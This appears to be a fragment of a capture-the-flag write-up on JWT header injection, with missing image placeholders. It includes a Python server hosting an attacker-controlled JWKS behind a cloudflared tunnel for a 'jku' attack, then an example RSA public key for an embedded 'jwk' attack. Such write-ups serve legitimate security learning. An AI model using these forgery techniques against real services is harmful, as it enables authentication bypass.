




Based on the name of the challenge, we could try either a `jku` or `jwk` header injection. I first tried `jku`, but had no luck:

```
python3 sever.py; cloudflared tunnel --url http://localhost:8000
```
```py
import http.server
import socketserver
import json

PORT = 8000 

jwks = {
    "keys": [
        ...
    ]
}

class JWKSHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/.well-known/jwks.json":
            self.send_response(200)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            self.wfile.write(json.dumps(jwks).encode())
        else:
            self.send_response(404)
            self.end_headers()

with socketserver.TCPServer(("0.0.0.0", PORT), JWKSHandler) as httpd:
    print(f"Serving JWKS on port {PORT}...")
    httpd.serve_forever()
```


Since jku didn’t work, I decided to try `jwk` instead.

First, create a new rsa key and get its public key




Example RSA key:
```
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "82c80968-869b-47de-b250-f9944a6975e9",
    "n": "ykK3hRo-0G7PzaARzHgyYPeX6inu0FFma6Pr8aJc1EfaIyQdYkzmFvAgMof3HgPxIzAWPEhs4awAEcfwir9YmE0aG7m3gE4lN3QTt6Xn9_mMMS4rx8i__1TZbcvELvnXNXDXz__j6MGdOw4kcgjHU9kHboXvtrY5IgIo3eXsv2yYv_3EEAlNHLSHKsbqwl3R30XNP8oIbCM7j4TWaEujW13JikO0WEaSFMzJLSWqnFgAgjrLNvh-iuyih3fPzFm3_zRTz1fEIG-5RvPurKt2HHhDHJYUL3FY_Qe2EWK1gqoAcb0k_ypkRLhJ-Jmz_bGbjxgeWi4WzoVd50xQLJsD_Q"
}
```
Modify the header manually or use an embedded attack to retrieve the flag

